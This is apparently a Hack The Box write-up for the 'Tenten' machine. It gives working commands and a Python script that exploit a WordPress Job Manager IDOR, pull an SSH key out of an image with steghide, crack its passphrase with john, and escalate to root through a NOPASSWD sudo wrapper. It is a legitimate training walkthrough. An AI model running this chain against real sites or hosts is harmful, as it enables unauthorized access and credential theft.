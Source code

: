 ```yaml
---
clayout: ctf
title: Tenten
date: 2025-09-16
image: /ctf/hack-the-box/machines/tenten/info-card.png
type: Hack The Box

ctf:
    - name: Tenten
      link: https://app.hackthebox.com/machines/8
      thumbnail: /ctf/hack-the-box/machines/tenten/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/8
          thumbnail: /ctf/hack-the-box/machines/tenten/pwned.png
---
```


## Machine Overview

A WordPress instance (tenten.htb) runs the Job Manager plugin (≤ 0.7.25), which is vulnerable to an IDOR and allows discovery of an uploaded CV image containing a private SSH key embedded via steganography. The private key is encrypted; its passphrase is recovered with `john` and used to SSH as `takis`. A misconfigured sudo entry for `/bin/fuckin` allows immediate root escalation.

## Enumeration

### Nmap

We started with a standard service scan to discover open services and versions:

```bash
nmap -sC -sV -Pn -oN nmap.txt 10.10.10.10
```

**Scan results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ecf79d380c476ff0130fb93bd4d6e311 (RSA)
|   256 ccfe2de27fef4d41ae390e91ed7e9de7 (ECDSA)
|_  256 8db58318c07c5d3d38df4be1a4828a07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://tenten.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

## Web Enumeration

### Hostname

Port 80 redirected to the virtual host `tenten.htb`. Added an `/etc/hosts` entry:

```bash
echo "10.10.10.10 tenten.htb" | sudo tee -a /etc/hosts
```

### Web Application Inspection

Visiting `http://tenten.htb/` shows a WordPress site with one post (user `takis`) and a job listing.

![Tenten Home Page](/ctf/hack-the-box/machines/tenten/home.png)

### WordPress plugin scan

Using `wpscan` revealed an instance of Job Manager with a known vulnerability:

```bash
wpscan --url http://tenten.htb --api-token <API_TOKEN>
```

```bash
 | [!] Title: Job Manager <= 0.7.25 -  Insecure Direct Object Reference (IDOR)
 |     References:
 |      - https://wpscan.com/vulnerability/9fd14f37-8c45-46f9-bcb6-8613d754dd1c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6668
 |      - https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/
```

## Exploitation: IDOR → Find uploaded CV

### Manual verification

Job application pages use numeric job IDs in the URL pattern:

```url
http://tenten.htb/index.php/jobs/apply/8/
```

Changing the ID to another value (e.g., `13`) reveals additional job entries (the `HackerAccessGranted` job), confirming the IDOR.

### Finding the uploaded file

The Job Manager upload naming leaks allow brute-forcing upload paths (uploads are typically stored under `wp-content/uploads/YYYY/MM/filename.ext`). We use this [gist](https://gist.github.com/DoMINAToR98/4ed677db5832e4b4db41c9fa48e7bdef) to search likely upload paths for `HackerAccessGranted` with common image extensions:

```python
# exploit.py
import requests
website = raw_input('Enter a vulnerable website: ')
filename = raw_input('Enter a file name:')
filename2 = filename.replace(" ", "-")
for year in range(2017,2019):
    for i in range(1,13):
        for extension in {'jpeg','png','jpg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

Run:

```bash
python2 exploit.py
Enter a vulnerable website: http://tenten.htb
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

We've found the CV image.

![Tenten HackerAccessGranted](/ctf/hack-the-box/machines/tenten/hacker-access-granted.png)

## Extract private key from image

### Steganography extraction

Using `steghide`, we can extract the embedded data:

```bash
steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: # enter empty passphrase
wrote extracted data to "id_rsa".
```

We've recovered a private SSH key.

## John the Ripper

We can use John the Ripper to crack the passphrase. Before that, we need to convert the private key into a crackable hash format.

### Convert private key to hash

Using `ssh2john.py`, we can convert the private key into a hash.

```bash
python3 ssh2john.py id_rsa > id_rsa.hash
```

We can now use John the Ripper to crack the passphrase.

### Run John

Using the `rockyou` wordlist, we can crack the passphrase.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

**Result:**

```bash
superpassword    (id_rsa)
```

## Initial access

With the extracted key and recovered passphrase:

```bash
ssh -i id_rsa takis@10.10.10.10
Enter passphrase for key 'id_rsa': # enter superpassword
```

On successful login, we can see that we're now logged in as `takis`.

```bash
takis@tenten:~$ id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),27(sudo),...
```

> [!IMPORTANT] User flag
> `/home/takis/user.txt`

## Privilege escalation (takis → root)

### Sudo rights

```bash
sudo -l
```

**Output:**

```bash
User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

Looking at the output, we can see that `/bin/fuckin` is listed as a NOPASSWD program.

### Inspect `/bin/fuckin`

The content of the script is:

```bash
cat /bin/fuckin
# #!/bin/bash
# $1 $2 $3 $4
```

This script simply executes its first argument as a command (with up to 3 args). Because it is allowed via sudo without a password, it allows arbitrary command execution as root:

```bash
sudo /bin/fuckin sudo su
# becomes a root shell
root@tenten:/home/takis# id
uid=0(root) gid=0(root) groups=0(root)
```

> [!NOTE] Root flag
> `/root/root.txt`
